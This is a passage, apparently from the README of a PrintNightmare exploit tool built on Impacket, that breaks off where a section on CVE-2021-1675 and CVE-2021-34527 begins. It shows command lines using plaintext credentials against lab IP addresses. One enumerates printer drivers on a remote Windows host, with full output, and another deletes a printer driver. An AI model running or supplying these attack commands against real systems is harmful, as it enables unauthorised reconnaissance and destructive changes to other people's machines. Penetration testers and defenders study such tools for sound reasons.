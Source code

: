 #### List current printer drivers

```bash
$ ./printnightmare.py -list 'user:Passw0rd@172.16.19.135'
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

[*] Enumerating printer drivers
Name:               Microsoft XPS Document Writer v4
Environment:        Windows x64
Driver path:        C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_075615bee6f80a8d\Amd64\mxdwdrv.dll
Data file:          C:\Windows\System32\DriverStore\FileRepository\prnms001.inf_amd64_8bc7809b71930efc\MXDW.gpd
Config file:        C:\Windows\System32\DriverStore\FileRepository\prnms003.inf_amd64_c9865835eff4a608\Amd64\PrintConfig.dll
Version:            4
----------------------------------------------------------------
Name:               Microsoft Print To PDF
Environment:        Windows x64
Driver path:        C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_075615bee6f80a8d\Amd64\mxdwdrv.dll
Data file:          C:\Windows\System32\DriverStore\FileRepository\prnms009.inf_amd64_6dc3549941ff1a57\MPDW-PDC.xml
Config file:        C:\Windows\System32\DriverStore\FileRepository\prnms003.inf_amd64_c9865835eff4a608\Amd64\PrintConfig.dll
Version:            4
----------------------------------------------------------------
Name:               Microsoft enhanced Point and Print compatibility driver
Environment:        Windows x64
Driver path:        C:\Windows\system32\spool\DRIVERS\x64\3\mxdwdrv.dll
Data file:          C:\Windows\system32\spool\DRIVERS\x64\3\unishare.gpd
Config file:        C:\Windows\system32\spool\DRIVERS\x64\3\PrintConfig.dll
Version:            3
----------------------------------------------------------------
```

#### Delete printer driver

May require administrative privileges.

```bash
$ ./printnightmare.py -delete -name 'Microsoft XPS Document Writer v5' 'administrator:Passw0rd@172.16.19.128'
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

[*] Deleted printer driver!
```

## Details

PrintNightmare consists of two CVE's, CVE-2021-1675 / CVE-2021-34527. 

### CVE-2021-1675
